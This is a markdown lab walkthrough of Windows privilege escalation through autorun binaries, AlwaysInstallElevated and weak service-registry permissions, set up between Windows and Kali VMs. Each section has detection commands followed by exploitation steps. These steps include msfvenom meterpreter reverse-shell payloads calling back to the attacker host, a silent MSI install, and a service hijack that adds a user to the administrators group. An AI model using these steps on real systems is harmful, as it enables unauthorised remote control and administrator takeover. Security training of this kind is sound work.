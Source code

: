 # Escalation Path Registry

## Autorun

Autoruns refer to programs, scripts, or services that automatically execute when Windows starts or when a device (like a USB) is plugged in.

### Detection of Auto runs programs 

***Windows VM***

**Run Autoruns**:

Open *Command Prompt* and execute `Autoruns64.exe`.

```
**C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe**
```

Navigate to the *‘Logon’ tab* to check programs that auto-start at user login.

**Identify Vulnerable Entry**:

"My Program" is set to run automatically from:

```
C:\Program Files\Autorun Program\program.exe
```

**Check File Permissions**:

Use *AccessChk* to inspect permissions:
   
```
accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

The output shows **"Everyone" has FILE_ALL_ACCESS**, meaning **any user (even non-admins) can modify** `program.exe`.

**Exploitation Possibility**:

- Since `program.exe` runs at *logon*, an attacker can *replace it with a malicious file* (e.g., a reverse shell).

- Upon restart/login, the system will execute the attacker’s payload, potentially leading to **privilege escalation**.

### Exploitations

**Kali VM**

Open command prompt and type: 

```
msfconsole
```

In Metasploit (msf > prompt) type: 

```
use multi/handler
```  

In Metasploit (msf > prompt) type:

```
set payload windows/meterpreter/reverse_tcp
```  

In Metasploit (msf > prompt) type: 

```
set lhost [Kali VM IP Address]
```

In Metasploit (msf > prompt) type: 

```
run
```

Open an additional command prompt and type: 

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe  
```

Copy the generated file, program.exe, to the Windows VM.

**Windows VM**

1. Place program.exe in `C:\Program Files\Autorun Program`  
2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

**Kali VM**

1. Wait for a new session to open in Metasploit.  
2. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: `getuid`

## AlwaysInstallElevated

The **AlwaysInstallElevated"** setting in Windows allows **MSI (Microsoft Installer) packages** to install with **SYSTEM privileges**, even when run by a low-privileged user. If misconfigured, an attacker can exploit it to **gain full control (privilege escalation)**.

### Detection 

**Windows VM**

1. Open command prompt and type: 

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```  

From the output, notice that `AlwaysInstallElevated` value is `1`. 

2. In command prompt type: 

```
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```  

From the output, notice that `AlwaysInstallElevated` value is `1`.

### Exploitation

**Kali VM**

Open command prompt and type: `msfconsole`  

In Metasploit (msf > prompt) type:

```
use multi/handler  
```

In Metasploit (msf > prompt) type: 

```
set payload windows/meterpreter/reverse_tcp  
```

In Metasploit (msf > prompt) type: 

```
set lhost [Kali VM IP Address]  
```

In Metasploit (msf > prompt) type: `run` 

Open an additional command prompt and type:

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi  
```

Copy the generated file, `setup.msi`, to the Windows VM. 

**Windows VM**

1.Place *setup.msi* in `C:\Temp`.  
2.Open command prompt and type: 

```
msiexec /quiet /qn /i C:\Temp\setup.msi
```

## regsrv (registry service)

This attack exploits **weak registry permissions** on the `regsvc` service, allowing a **low-privileged user** to replace the service’s executable path with a **malicious binary**, resulting in **privilege escalation** to an administrator

### Detection

**Windows VM**

Open `powershell` prompt and type:

```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

Notice that the output suggests that user belong to `NT AUTHORITY\INTERACTIVE` has `FullContol` permission over the registry key.

### Exploitation

**Windows VM**

Copy `C:\Users\User\Desktop\Tools\Source\windows_service.c` to the Kali VM.

**Kali VM**

Open `windows_service.c` in a text editor and replace the command used by the system() function to: 

```
cmd.exe /k net localgroup administrators user /add
```

Exit the text editor and compile the file by typing the following in the command prompt:

```
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

(NOTE: if this is not installed, `use 'sudo apt install gcc-mingw-w64`')

Copy the generated file `x.exe`, to the Windows VM.

**Windows VM**

Place `x.exe` in `C:\Temp`.  

Open command prompt at type:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```  

In the command prompt type: 

```
sc start regsvc  
```

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt:

```
net localgroup administrators
```



